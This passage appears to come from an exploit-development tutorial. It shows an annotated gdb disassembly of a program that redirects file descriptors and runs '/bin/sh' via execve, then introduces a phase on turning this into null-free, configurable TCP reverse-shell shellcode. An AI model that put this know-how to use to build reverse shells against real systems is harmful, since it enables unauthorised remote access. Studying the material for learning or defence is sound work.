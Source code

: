 ```nasm
   ; 0xbffff010:	0x00000003	0x00000002
   ;
   ; parameters:
   ; 0x00000003 = oldfd
   ; 0x0000000[0-2] = newfd
   ; ---------------------------------------------------------------------------------

   ; execve --------------------------------------------------------------------------
   0x00400731 <+164>:	add    esp,0x10
   0x00400734 <+167>:	add    DWORD PTR [ebp-0x2c],0x1
   0x00400738 <+171>:	cmp    DWORD PTR [ebp-0x2c],0x2
   0x0040073c <+175>:	jle    0x400723 <main+150>
   0x0040073e <+177>:	sub    esp,0x4
   0x00400741 <+180>:	push   0x0
   0x00400743 <+182>:	push   0x0
   0x00400745 <+184>:	lea    eax,[ebx-0x17be]
   0x0040074b <+190>:	push   eax
   0x0040074c <+191>:	call   0x4004f0 <execve@plt>
   ; gdb$ x/a $esp
   ; 0xbffff010:	0x400842 => "/bin/sh"
   ; gdb$ x/2c $esp+4
   ; 0xbffff014:	0x0 0x0
   ;
   ; parameters:
   ; 0x4008a4 = pointer to filename on stack
   ; 0x0 = argv[]
   ; 0x0 = anvp[]
   ; ---------------------------------------------------------------------------------

   0x00400751 <+196>:	add    esp,0x10
   0x00400754 <+199>:	sub    esp,0xc
   0x00400757 <+202>:	push   DWORD PTR [ebp-0x20]
   0x0040075a <+205>:	call   0x400530 <close@plt>
   0x0040075f <+210>:	add    esp,0x10
   0x00400762 <+213>:	mov    eax,0x0
   0x00400767 <+218>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0040076a <+221>:	xor    edx,DWORD PTR gs:0x14
   0x00400771 <+228>:	je     0x400778 <main+235>
   0x00400773 <+230>:	call   0x400800 <__stack_chk_fail_local>
   0x00400778 <+235>:	lea    esp,[ebp-0x8]
   0x0040077b <+238>:	pop    ecx
   0x0040077c <+239>:	pop    ebx
   0x0040077d <+240>:	pop    ebp
   0x0040077e <+241>:	lea    esp,[ecx-0x4]
   0x00400781 <+244>:	ret    
End of assembler dump.
```
## Phase 3: Writing shellcode that creates a TCP reverse shell
Now that we have an understanding of what is happening at an assembly level behind the scenes we will convert it into usable shellcode.  Things to keep in mind here is that we cannot have any null bytes, size matters, and that the target address and port number should be configurable.
